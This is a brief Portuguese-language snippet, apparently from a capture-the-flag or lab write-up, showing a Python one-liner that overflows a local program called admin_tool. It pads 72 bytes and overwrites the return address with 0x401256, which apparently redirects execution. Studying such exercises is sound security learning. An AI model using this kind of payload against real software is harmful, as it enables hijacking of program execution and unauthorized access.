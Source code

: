 ## Utilizando o python para explorar o buffer overflow

python3 -c "import struct; addr = struct.pack('<Q', 0x0000000000401256); offset = b'A' * 72; payload = offset + addr; print(payload.decode('latin-1'))" | ./admin_tool
